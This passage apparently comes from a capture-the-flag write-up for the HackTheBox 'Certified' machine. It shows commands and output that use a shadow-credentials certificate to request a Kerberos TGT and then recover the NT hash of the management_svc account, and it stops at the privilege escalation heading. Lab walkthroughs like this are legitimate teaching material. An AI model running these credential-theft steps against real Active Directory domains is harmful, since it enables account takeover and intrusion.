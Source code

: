 Now, let's try again:

```
python3 gettgtpkinit.py certified.htb/management_svc -cert-pfx /home/kali/pywhisker/pywhisker/GNJ5gqL7.pfx -pfx-pass VLVMMXcUZpo6JQ3sSY3C cache.ccache
2025-03-12 20:28:18,490 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-12 20:28:18,515 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-12 20:28:40,123 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-12 20:28:40,123 minikerberos INFO     e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f
INFO:minikerberos:e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f
2025-03-12 20:28:40,125 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

There we go, we successfully got our key, we can use this key to recover the NT hash of `management_svc`, we can do this with the integrated python script from the repository we downloaded in the previous step:

```
python3 getnthash.py certified.htb/management_svc -key e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f

[-] CCache file is not found. Skipping...
[-] No TGT found from ccache, did you set the KRB5CCNAME environment variable?
```

We got an error, we need to set the `KRB5CCNAME` to point out our `cache.ccache` file:

```
export KRB5CCNAME=cache.ccache
```

Now, let's use it again:

```
python3 getnthash.py certified.htb/management_svc -key e0da658aa6af3696f137ffd2c81f0daf1c585c4c692f7418affa0e9fde5e381f
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

There we go, we got our ticket, with this, we could go inside Winrm and get our user flag, but let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---
